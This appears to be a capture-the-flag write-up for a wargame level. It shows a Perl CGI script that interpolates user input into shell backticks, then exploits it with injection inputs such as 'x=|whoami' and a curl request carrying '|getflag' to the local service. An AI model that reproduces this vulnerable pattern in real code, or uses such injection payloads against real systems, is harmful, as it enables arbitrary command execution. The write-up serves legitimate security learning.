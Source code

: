 we have a simple perl script :

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print \`echo $y 2>&1\`;
}
x(param("x"));
```

the backtick is a perl syntax to execute shell code, so here it's executing `echo $y` in shell.
the exploit is that we can modify $y.
`./level04 x=test` :

```
Content-type: text/html

test
```

so `./level04 'x=|whoami'` : `level04`. it should be flag04 since the setuid flag is set and the owner is flag04, but perl as a security measure against thoses kinds of attacks, and even if the setuid it set subshell command in backtick will be executed by the launcher of the file.

the `# localhost:4747` command and the fact that the CGI plugin is related to http can make us guess that this script is available at localhost:4747, and that it may run as flag04.
`curl 'localhost:4747?x=|getflag'` give us the flag.
